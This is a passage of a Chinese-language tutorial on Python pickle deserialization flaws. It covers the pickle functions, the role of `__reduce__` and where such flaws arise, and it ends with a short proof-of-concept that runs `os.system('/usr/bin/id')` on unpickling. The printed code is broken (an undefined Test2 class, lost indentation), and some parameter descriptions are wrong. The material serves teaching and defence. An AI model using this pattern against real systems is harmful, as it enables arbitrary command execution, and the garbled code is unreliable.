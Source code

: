 函数的功能：将 obj 对象序列化存入已经打开的 file 中。

参数讲解：

*   obj：想要序列化的 obj 对象。
    
*   file: 文件名称。
    
*   protocol：序列化使用的协议。如果该项省略，则默认为 0。如果为负值或 HIGHEST_PROTOCOL，则使用最高的协议版本。
    

（2）pickle.load(file)

函数的功能：将 file 中的对象序列化读出。

参数讲解：

*   file：文件名称。
    

（3）pickle.dumps(obj[, protocol])

函数的功能：将 obj 对象序列化为 string 形式，而不是存入文件中。

参数讲解：

*   obj：想要序列化的 obj 对象。
    
*   protocal：如果该项省略，则默认为 0。如果为负值或 HIGHEST_PROTOCOL，则使用最高的协议版本。
    

（4）pickle.loads(string)

函数的功能：从 string 中读出序列化前的 obj 对象。

参数讲解：

*   string：文件名称。
    

##### 魔法方法

反序列化漏洞出现在 `__reduce__()`魔法函数上，这一点和 PHP 中的`__wakeup()`魔术方法类似，都是因为每当反序列化过程开始或者结束时 , 都会自动调用这类函数。而这恰好是反序列化漏洞经常出现的地方。

而且在反序列化过程中，因为编程语言需要根据反序列化字符串去解析出自己独特的语言数据结构，所以就必须要在内部把解析出来的结构去执行一下。如果在反序列化过程中出现问题，便可能直接造成 RCE 漏洞。

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqjuI3Y5lTsL4uhMzmnBhICb3mnldOs3VcsGnatT2vFfiajSeVOPFred2m13RGaR8OKGDNQuKEADvg/640?wx_fmt=png)

#### #Python 反序列化利用

漏洞可能出现的位置：

1.  解析认证 token、session 的时候
    
2.  将对象 Pickle 后存储成磁盘文件
    
3.  将对象 Pickle 后在网络中传输
    
4.  参数传递给程序
    

命令执行利用

```
import pickle
import os
classTest(object):
def __reduce__(self):
#被调用函数的参数
        cmd ="/usr/bin/id"
return(os.system,(cmd,))
if __name__ =="__main__":
    test =Test2()
#执行序列化操作
    result1 = pickle.dumps(test)
#执行反序列化操作
    result2 = pickle.loads(result1)
```